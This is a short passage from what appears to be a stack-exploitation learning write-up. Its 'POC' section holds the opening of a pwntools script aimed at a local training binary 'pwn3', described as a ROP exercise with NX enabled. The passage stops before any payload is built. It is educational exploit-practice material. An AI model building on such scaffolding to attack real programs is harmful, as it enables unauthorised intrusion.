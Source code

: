 <img src="https://raw.githubusercontent.com/Pryriat/blog_backup/master/Image/stack_learn/image-20200814104006855.png" alt="image-20200814104006855" style="zoom:40%;" />

## POC

```python
#coding:UTF-8
#NX开启，通过gadget控制寄存器传参至程序目标函数
from pwn import *
context.log_level = 'debug'
def lauch_gdb(p):
    context.log_level = 'debug'
    context.terminal = ['tmux', 'splitw', '-h']
    gdb.attach(p)

def lauch_with_gdb(filename):
    context.log_level = 'debug'
    context.terminal = ['tmux', 'splitw', '-h']
    p=gdb.debug(filename,"break main")
    return p

p = process('./pwn3')
#p = lauch_with_gdb('./pwn3')
elf = ELF('./pwn3')
libc = elf.libc

vuln_addr = 0x400626
```